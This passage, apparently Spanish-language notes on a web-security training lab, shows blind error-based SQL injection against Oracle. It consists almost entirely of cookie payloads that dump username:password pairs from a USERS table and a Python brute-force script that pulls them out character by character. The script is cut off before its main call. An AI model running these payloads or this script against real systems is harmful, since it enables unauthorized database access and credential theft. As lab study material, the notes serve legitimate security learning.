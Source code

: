 ```
Cookie: TrackingId=tUTQzgBhjwUdED3A'||(select case when (length((select listagg(username || ':' || password, ' ') within group (order by username) from PETER.USERS)) = 90) then to_char(1/0) else null end from dual)||'; session=jfUUooip2oaljIAJ5cX97j7YkqBYCAfb
```

Usamos este `payload` para `obtener` los `caracteres` de las `columnas`

```
Cookie: TrackingId=tUTQzgBhjwUdED3A'||(select case when (substr((select listagg(username || ':' || password, ' ') within group (order by username) from PETER.USERS), 1, 1) = 'a') then to_char(1/0) else null end from dual)||'; session=jfUUooip2oaljIAJ5cX97j7YkqBYCAfb
```

Con este `script` vamos a `iterar` sobre el `payload` anterior para `obtener` el `contenido` de las columnas `USERNAME` y `PASSWORD`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a9e000503c4fd2988837a8f00b100ba.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 91):
            for character in characters:
                cookies = {
                    'TrackingId': "C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(username || ':' || password, ' ') within group (order by username) from PETER.USERS), %d, 1) = '%s') then to_char(1/0) else null end from dual)||'" % (position, character),
                    'session': "BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD"
                }

                p1.status(cookies['TrackingId'][:150])

                r = requests.get(url, cookies=cookies)

                if r.status_code == 500:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
```